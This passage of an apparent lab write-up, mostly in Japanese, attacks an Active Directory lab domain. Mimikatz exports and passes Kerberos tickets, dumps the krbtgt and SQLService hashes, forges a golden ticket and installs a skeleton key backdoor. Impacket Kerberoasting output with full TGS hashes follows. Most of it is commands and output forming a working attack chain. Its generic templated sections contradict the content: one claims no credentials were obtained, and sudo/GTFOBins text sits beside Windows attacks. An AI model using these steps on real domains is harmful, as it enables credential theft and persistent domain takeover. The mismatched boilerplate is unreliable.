Domain            : CONTROLLER
Logon Server      : (null)
Logon Time        : 9/7/2024 2:34:29 AM
SID               : S-1-5-18

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

```

カレントディレクトリに吐き出される

```
 Directory of C:\Users\Administrator\Downloads

09/07/2024  02:38 AM    <DIR>          .
09/07/2024  02:38 AM    <DIR>          ..
05/25/2020  03:45 PM         1,263,880 mimikatz.exe
05/25/2020  03:14 PM           212,480 Rubeus.exe
09/07/2024  02:38 AM             1,755 [0;35d3f]-1-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi
09/07/2024  02:38 AM             1,587 [0;35efb]-2-0-60a10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi
09/07/2024  02:38 AM             1,711 [0;3e7]-0-0-40a50000.kirbi
09/07/2024  02:38 AM             1,791 [0;3e7]-0-1-40a50000-CONTROLLER-1$@cifs-CONTROLLER-1.CONTROLLER.local.kirbi
09/07/2024  02:38 AM             1,791 [0;3e7]-0-2-40a50000-CONTROLLER-1$@LDAP-CONTROLLER-1.CONTROLLER.local.kirbi
09/07/2024  02:38 AM             1,755 [0;3e7]-0-3-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi
09/07/2024  02:38 AM             1,721 [0;3e7]-0-4-40a50000-CONTROLLER-1$@LDAP-CONTROLLER-1.kirbi
09/07/2024  02:38 AM             1,587 [0;3e7]-2-0-60a10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi
09/07/2024  02:38 AM             1,587 [0;3e7]-2-1-40e10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi
09/07/2024  02:38 AM             1,595 [0;44040]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
09/07/2024  02:38 AM             1,755 [0;5af7f]-1-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi
09/07/2024  02:38 AM             1,755 [0;5b5b5]-1-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi
09/07/2024  02:38 AM             1,755 [0;a941f]-1-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi
09/07/2024  02:38 AM             1,755 [0;a947b]-1-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi
09/07/2024  02:38 AM             1,791 [0;a94b7]-1-0-40a50000-CONTROLLER-1$@LDAP-CONTROLLER-1.CONTROLLER.local.kirbi
09/07/2024  02:38 AM             1,755 [0;a94f0]-1-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi
              18 File(s)      1,503,806 bytes
               2 Dir(s)  50,917,453,824 bytes free
mimikatz # privilege::debug
Privilege '20' OK

```

チケットを使って

```
mimikatz # kerberos::ptt [0;44040]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
* File: '[0;44040]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi': OK
```

メモリに追加されたこと確認

```bash
C:\Users\Administrator\Downloads>klist

Current LogonId is 0:0x44040

Cached Tickets: (1)

#0>     Client: Administrator @ CONTROLLER.LOCAL
        Server: krbtgt/CONTROLLER.LOCAL @ CONTROLLER.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 9/7/2024 2:30:16 (local)
        End Time:   9/7/2024 12:30:16 (local)
        Renew Time: 9/14/2024 2:30:16 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

### krbtgtをダンプする

特権モードになる

```
privilege::debug
```

ゴールデンチケットを作成するために必要なセキュリティ識別子とハッシュをダンプする

```
lsadump::lsa /inject /name:krbtg
mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 72cd714611b64cd4d5550cd2759db3f6
    LM   :
  Hash NTLM: 72cd714611b64cd4d5550cd2759db3f6
    ntlm- 0: 72cd714611b64cd4d5550cd2759db3f6
    lm  - 0: aec7e106ddd23b3928f7b530f60df4b6

 * WDigest
    01  d2e9aa3caa4509c3f11521c70539e4ad
    02  c9a868fc195308b03d72daa4a5a4ee47
    03  171e066e448391c934d0681986f09ff4
    04  d2e9aa3caa4509c3f11521c70539e4ad
    05  c9a868fc195308b03d72daa4a5a4ee47
    06  41903264777c4392345816b7ecbf0885
    07  d2e9aa3caa4509c3f11521c70539e4ad
    08  9a01474aa116953e6db452bb5cd7dc49
    09  a8e9a6a41c9a6bf658094206b51a4ead
    10  8720ff9de506f647ad30f6967b8fe61e
    11  841061e45fdc428e3f10f69ec46a9c6d
    12  a8e9a6a41c9a6bf658094206b51a4ead
    13  89d0db1c4f5d63ef4bacca5369f79a55
    14  841061e45fdc428e3f10f69ec46a9c6d
    15  a02ffdef87fc2a3969554c3f5465042a
    16  4ce3ef8eb619a101919eee6cc0f22060
    17  a7c3387ac2f0d6c6a37ee34aecf8e47e
    18  085f371533fc3860fdbf0c44148ae730
    19  265525114c2c3581340ddb00e018683b
    20  f5708f35889eee51a5fa0fb4ef337a9b
    21  bffaf3c4eba18fd4c845965b64fca8e2
    22  bffaf3c4eba18fd4c845965b64fca8e2
    23  3c10f0ae74f162c4b81bf2a463a344aa
    24  96141c5119871bfb2a29c7ea7f0facef
    25  f9e06fa832311bd00a07323980819074
    26  99d1dd6629056af22d1aea639398825b
    27  919f61b2c84eb1ff8d49ddc7871ab9e0
    28  d5c266414ac9496e0e66ddcac2cbcc3b
    29  aae5e850f950ef83a371abda478e05db

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 79bf07137a8a6b8f

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : dfb518984a8965ca7504d6d5fb1cbab56d444c58ddff6c193b64fe6b6acf1033
      aes128_hmac       (4096) : 88cc87377b02a885b84fe7050f336d9b
      des_cbc_md5       (4096) : 79bf07137a8a6b8f

 * NTLM-Strong-NTOWF
    Random Value : 4b9102d709aada4d56a27b6c3cd14223

mimikatz #
```

ゴールデンチケット作成コマンド

krbtgtスロット：NTLMハッシュ
sid：サービスアカウントのsid
id：500 DomainAdmin⇒512 5xx系が管理用アカウント

```
Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:550
mimikatz # Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
User      : Administrator
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-432953485-3795405108-1502158860
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 72cd714611b64cd4d5550cd2759db3f6 - rc4_hmac_nt
Lifetime  : 9/7/2024 4:27:26 AM ; 9/5/2034 4:27:26 AM ; 9/5/2034 4:27:26 AM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

mimikatz.で指定されたチケットで新しい昇格コマンドプロンプトを開く

```
mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF6360143B8
```

SQLサービスのハッシュを取得する

```
lsadump::lsa /inject /name:SQLService
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860

RID  : 00000455 (1109)
User : SQLService

 * Primary
    NTLM : cd40c9ed96265531b21fc5b1dafcfb0a
    LM   :
  Hash NTLM: cd40c9ed96265531b21fc5b1dafcfb0a
    ntlm- 0: cd40c9ed96265531b21fc5b1dafcfb0a
    lm  - 0: 7bb53f77cde2f49c17190f7a071bd3a0

 * WDigest
    01  ba42b3f2ef362e231faca14b6dea61ef
    02  00a0374f4ac4bce4adda196e458dd8b8
    03  f39d8d3e34a4e2eac8f6d4b62fe52d06
    04  ba42b3f2ef362e231faca14b6dea61ef
    05  98c65218e4b7b8166943191cd8c35c23
    06  6eccb56cda1444e3909322305ed04b37
    07  25b7998ce2e7b826a576a43f89702921
    08  8609a1da5628a4016d32f9eb73314fa0
    09  277f84c6c59728fb963a6ee1a3b27f0d
    10  63a9f69e8b36c3e0612ec8784b9c7599
    11  47cb5c436807396994f1b9ccc8d2f8e1
    12  46f2c402d8731ed6dca07f5dbc71a604
    13  2990e284070a014e54c749a6f96f9be7
    14  c059f85b7f01744dc0a2a013978a965f
    15  3600c835f3e81858a77e74370e047e29
    16  bd9c013f8a3f743f8a5b553e8a275a88
    17  c1d94e24d26fdaad4d6db039058c292e
    18  1a433c0634b50c567bac222be4eac871
    19  78d7a7573e4af2b8649b0280cd75636d
    20  136ddfa7840610480a76777f3be007e0
    21  7a4a266a64910bb3e5651994ba6d7fb4
    22  a75ec46a7a473e90da499c599bc3d3cb
    23  8d3db50354c0744094334562adf74c2a
    24  7d07406132d671f73a139ff89da5d72e
    25  dd1e02d5c5b8ae969d903a0bc63d9191
    26  27da7fc766901eac79eba1a970ceb7da
    27  09333600bcc68ee149f449321a5efb27
    28  1c550f8b3af2eb4efda5c34aa8a1c549
    29  3cd9326a300d2261451d1504832cb062

 * Kerberos
    Default Salt : CONTROLLER.LOCALSQLService
    Credentials
      des_cbc_md5       : 5d5dae0dc10e7aec

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALSQLService
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : a3a6dbd4d6fa895b600c28bfdaf6b52d59d46a6eb1f455bc08a19b7e8cdab76d
      aes128_hmac       (4096) : 629b46af543142f77cabcf14afb1caea
      des_cbc_md5       (4096) : 5d5dae0dc10e7aec

 * NTLM-Strong-NTOWF
    Random Value : 7e9547ab69f52e42450903ebbe6ad6ec
```

### Skeletoon Key

メモリにバックドア用のキーを埋め込むことで、
パスワード横移動を可能にする機能。

デフォルトのハッシュ：60BA4FCADC466C7A033C178194C03DF6
 パスワード：mimikatz
永続化しないことは注意点
ドメコンのローカル管理者権限が取得できている必要あり

スケルトンキーをインストールする

```
mimikatz # misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK
```

管理者のパスワードを必要としないで共有ディスクにアクセスできるようになる

```
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
```

Desktop-1にアクセスできるユーザを知らなくても Desktop-1のデスクトップにアクセスできる

dir \\Desktop-1\c$ /user:Machine1 mimikatz

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

```bash
┌──(n0z0㉿LAPTOP-P490FVC2)-[/usr/share/doc/python3-impacket/examples]
└─$ sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.161.86 -request
[sudo] password for n0z0:
Impacket v0.12.0.dev1+20240725.125704.9f36a10e - Copyright 2023 Fortra

ServicePrincipalName                             Name         MemberOf                                                         PasswordLastSet             LastLogon                   Delegation
-----------------------------------------------  -----------  ---------------------------------------------------------------  --------------------------  --------------------------  ----------
CONTROLLER-1/SQLService.CONTROLLER.local:30111   SQLService   CN=Group Policy Creator Owners,OU=Groups,DC=CONTROLLER,DC=local  2020-05-26 07:28:26.922527  2020-05-26 07:46:42.467441
CONTROLLER-1/HTTPService.CONTROLLER.local:30222  HTTPService                                                                   2020-05-26 07:39:17.578393  2020-05-26 07:40:14.671872

[-] CCache file is not found. Skipping...
$krb5tgs$23$*SQLService$CONTROLLER.LOCAL$controller.local/SQLService*$7c221c1312a6acf62ff62153200a1f79$884f79695b62cec74d1965b07e4480b690b45ff06927f109529043189b184181f2a7701c75273e8a25e150a153b478e3dd2e09b33b77e8e6fa191f5245bcd16c877c192a209833e7a0a6f7bb885a62634bb00daeccc1498ff2c4d2732ca76a1660cb39dd6e6ea40837c91ffe2350d6fefa2dfeec2d696d04dfa84689d3480f8dfeb7a7ab8c3fa958a69143a4e43d2a038387f425df50baf710a94b4fcfd891d03a6dfc7bab6fd2f0271f3e3ec048369ab0b8ebe3e0f43782953657f0eb01e1a1edb77018c677c48bca937f9fae872986d4b019f735ecbe8eacac537886bff24a3bceba3cfdd566b7ad432405c115aab1381caa84791ade224c4ff4d5959823be5bb6cefab7bf1e89769fb48364d71ded91dfb9e827ee019ef919f55b1e2c5fda3f1633c06135bdbb1c093e3eec1b0971292e24e179f13c28f932ae57000b0dddaa312fc05b4ab3f9f38fa18217d74e996d898c90329c288ffc96dd8272d9b5058d23fdfa97321a555e2813406f40666c97ca98d93439e060544141ba196c96b630a236acb4e71e80889627d3e9dd53bfb3d539f77d703af016694281591d88559f268d100760ba4c1001cc50a937f079964597ea497e083c94c03b9ae8795d1458fd55004bba8bf06ec4b74b427ceebacf492e1409a06b6c0b0c09883f5a59e825d9bd6fe013dcd67f0ed59c5178575910d875edc6e5350beab29bff6fb61d337e1b3f247fdebdd3c5b64a22ed0376a02e3a9648653c4dbee9134e17c80fca71f82a2b2f27f8304a397aa8f58b2054f040729492c942694b5df7238afbe6fe237dc130784c17ea112421482bd0ecb2e455116cc1cfa21c530edce9d1384a0da3b74ef34b48dc89a388e1f22ffe1404078752ebec3ce65c85ffde233ecf675de021fbe0728feda468b9a1f85e2fd58612e55df1154bd6c8e81a9b645972f064015098f5fcb75700fb5a603464c8933539f0c87768f6ad843076a795634eb6841305c6893245dac186110b94556fadeccced46f44660f362356b0296c6820b4686015f56d655142bd829fd02c7a970de085bafdc31193da3d95181a5dd204254fac2664c6b0867e6d77260de31cf8662bd689d9641e3fc715bb50aa656c9fe7d1136ecda48ea311f86eaf74a75f9bed2d185a61983f9649f9dd72edde724baba5a683a37f479b1e59b429ff8827ea7da78c47ebcc9a0c695d08523181a9d6cc18516c946c21ae8479460a11ea42f199edecffab8b8ef66851b6d7c833fd42373473a683287527454d503d6f91c8b418d9f3c2bf44b689d088d975522e27b1fcd6e198a0731a64e19e04e968f85351fa4ef6f61bf6942cf8cfb095cc39240861c4f07b9548e26fe20c20b38818ca9a6214275
$krb5tgs$23$*HTTPService$CONTROLLER.LOCAL$controller.local/HTTPService*$2baa1fe93188e2d659ab5fc19217b5e2$3a24c67ae5c9bdd01afe937bf05d6553fd54e08b294d44aff1072341b44373d67d121d3d74aca9b5806699e9b6b76e8761d0330689dc62becdc8cb590e13f1b091e1fd8107512c2ea738615597d89616c6e697aa33a8c1e13a2873c299f8424338a7e2a52d5e15ad488a7f1cb7c5cfcd48273543f373939140de1b7d9929b6c709537d4ada530916ee8706ebe6eb9a2b46e275cef2b5b1b0404af9b01edf7e8c99aacd737c2d75c45b2695a98c5bdd3df4cf4519ff6c6973e7cd783f274f4a187d83142f2fa406fedd4a60519caf0de69a89380472e6156944b870c5d7a6205b7654846b930fd491de85fb47201f1263a4474c00e16b23561cb9c50e0443a9368933fea60498384c5ca95eb2112e266e546428ee1c564d135c93688536e5ebb6e8041a0ff66571dd1a88cc96a85f0f9147bccbf52e3e5073c99a135221b9d45ce318867391f8a9950560c54831d4952fddb9540e8d797d6a77a88824f92b9187bb8b9aebf9eb609e960de3ca29968a74fb1064aa814ca83fc7a90b9cd0de0cc06fa258ef5c46cac10a4025a7c9fb964af24ed06171adb3b142ec030f9bffd7238fc7876731ab92a92913c18178c4d5c93fbbb6303037d95aea025d146c2b0a1f731bac5aa0a5814e81b7ba37ba00db81390ce0a22ab55cb30e3f11da52e891a58b9d2530822b4d290c3e3d501b8d592edfbe27df1c79625aa37d5ba52dcab0f50f27826b567963eee9d7f9d658d75fe15dd405972d5b32dcc58cb21de4192a9e86aff2d3ded350abd010428982c6da248d93d4563d1e29ab9213479f54b8fb655690efa05bbffffefb79a7c464117e1a953426ffa63dfe5958396632ff8e5fd3ab94196b7af789b72b954dd98efd7a10656dcf2880a7a09831656050cdaaed67bdacc31bc7825cd5dd58d2cd8917a1c8d274a1ce602ec70d52cc87b315d7aec98c2f1825e47f85998ab14059af07a2cc57a504f9b4af319e26992b6843b89b56f9d02ae5bb01759e31a082f4969e0d5df34043372d38db14a3c9427ac392df02710e6085363925287dadd329851e4cf9985a6e168799dbba8bf1e54e5e700caff84c2d8e7ae0b90f998da982ba87e877c06b9c6a7b78adcfeaa8eac122347ce8bcfa6403010b375d6e83905bff134e2d659bc24cdaa4ea4719229a5e98292bdfd74182065f0526e765316035943833f7c338fd1837282300e66128957bd72cb1b8372b29c3cf562b536ee30f35987c8be533617b0df2afac3618c7380438cf8d89aaa26da2475fcf3784d624b50d166dc263f8d8299106217b3df54c07f4952cbc300876f56bc26e7fc61310092f4675cd487ab7061555d7839dd368a9ce15732422ccb7d8a04eabe6f536c0c8ddcc5a89
```

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
No credentials obtained.
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- sudo
- find
- impacket
- GTFOBins
